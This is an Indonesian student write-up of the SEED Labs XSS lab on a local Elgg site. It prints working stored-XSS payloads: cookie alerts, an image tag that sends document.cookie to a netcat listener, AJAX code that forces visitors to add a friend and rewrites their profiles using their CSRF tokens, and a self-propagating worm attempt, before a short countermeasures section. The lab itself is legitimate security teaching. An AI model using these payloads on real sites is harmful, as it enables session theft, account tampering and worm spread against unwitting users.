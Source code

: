### SEEDLAB : XSS by Dito Prabowo

***
#### 0x1 LAB TASK

##### Preparation: Getting Familiar with the "HTTP Header Live" tool

Update Firefox kemudian install http live header :

![](img/1.png)

##### Task 1: Posting a Malicious Message to Display an Alert Window

1. Login dengan salah satu akun yang disediakan, lalu pada profile edit bagian brief description isikan :

          <script>alert(’XSS’);</script>

maka setelah di save akan muncul alert xss

![](img/2.png)

kita juga bisa menambahkan dengan src, yang berarti kita perlu menambahkan file js pada folder web xsslabelgg di /var/www/XSS/Elgg/

atau kita membuat file js di online hosting lalu kita mengisikan src dengan link file js tersebut

##### Task 2: Posting a Malicious Message to Display Cookies

Sama seperti task 1, tinggal isikan :

        <script>alert(document.cookie);</script>

![](img/3.png)

##### Task 3: Stealing Cookies from the Victim’s Machine

Buka Terminal Baru, masukan command

        nc -l 5555 -v

yang artinya listening port 5555 dan mengeluarkan output nya.

kemudian pada profile isi

      <script>document.write(’<img src=http://127.0.0.1:5555?c=’
        + escape(document.cookie) + ’ >’);
        </script>

Pada Terminal akan keluar output :

  ![](img/4.png)

##### Task 4: Becoming the Victim’s Friend
Buka Network pada mozila untuk menginspeksi HTTP request, kemudian add friend sammy, akan muncul request url ketika kita add Friend

![](img/5.png)

ada beberapa parameter ketika add friend seperti pada gambar

![](img/6.png)

url : http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1558030758&__elgg_token=OP2JJuQ_QdroKTaNHUKxkQ

nah agar orang yang mengunjungi profile kita (charlie) langsung add friend, kita masukan code dengan injeksi sebagai berikut :

```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=46"+ts+token; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send();
}
</script>
```
Jadi apabila ada orang lain yang mengunjungi profile charlie (46) orang tersebut akan otomatis add friend

sebelum attack (akun boby):
![](img/7.png)

setelah :
![](img/8.png)

line 1 dan line 2 diperlukan sebagai parameter yang diperlukan url, jika tidak akan error,
ketika tidak ada edit html, bisa dengan mengakali text html
##### Task 5: Modifying the Victim’s Profile
Kita cari tau dulu http request saat edit page

dapat parameter :
```
__elgg_token=uO6T8WPSqQjERMDY9_xUtA&__elgg_ts=1558035294&name=Charlie&description=<p>CyberSecurity ITS</p> &accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2&guid=46
```

berarti kita bikin payload :
```
("&__elgg_ts=")+ts+("&__elgg_token=")+token+("&name=")+userName+"&description=diganti_oleh_dito&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2"+("&guid=")+guid
```

full source :
```
<script type="text/javascript">
window.onload = function(){
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var content=("&__elgg_ts=")+ts+("&__elgg_token=")+token+("&name=")+userName+"&description=diganti_oleh_dito&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2"+("&guid=")+guid; //FILL IN
var charlieGuid=46; //FILL IN
var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
if(elgg.session.user.guid!=charlieGuid)
{
profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.send(content);
}
}
</script>
```

profile boby sebelum akses page charlie :
kosongan

setelah mengunjungi profile charlie :
![](img/9.png)

Attack succes

##### Task 6: Writing a Self-Propagating XSS Worm

Pada lab ini, kita diminta tidak hanya merubah profile orang tetapi juga menjadikan orang yang mengunjungi profile kita menjadi attacker juga (biar cepat menyebar).

menggunakan DOM Approach saya sudah mencoba, menggabungkan file pada task 5, lalu menambahkan seperti contoh, tetapi saya lihat hasilnya charachter +() dsb tidak bisa ter escape, kemudian saya coba kasih Regex escape string, tetap tidak mau terescape

script :
```
<script id="worm" type="text/javascript">
var e = /[\+\(\)\\]/g;
escapeRegExp= function(s) {
    return s.replace(e, '\\$&');
};
window.onload = function(){
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var wormCode = document.getElementById("worm");
var escapedWorm = escape(escapeRegExp("<" + "script>" + wormCode.innerHTML + "</" + "script>"));
alert(escapedWorm);
var content=("&__elgg_ts=")+ts+("&__elgg_token=")+token+("&name=")+userName+("&description=diganti_oleh_dito_plus_injeksi_")+escapedWorm+"&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2"+("&guid=")+guid; //FILL IN
var charlieGuid=46; //FILL IN
var sendurl = "http://www.xsslabelgg.com/action/profile/edit"
if(elgg.session.user.guid!=charlieGuid)
{
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.send(content);
}
}
</script>
<p>&nbsp;</p>

```
hasilnya tetap, tidak mau mengescape tanda +, padahal yang () mau.

![](img/10.png)


##### Task 7: Countermeasures

pada task ini, kita tinggal mengenable HTMLawed 1.9 security plugin lewat acoount admin, atau meng uncoment Html special charachter di o /var/www/XSS/Elgg/vendor/elgg/elgg/views/default/
output/

![](img/11.png)

hasilnya inject xss tidak akan bekerja
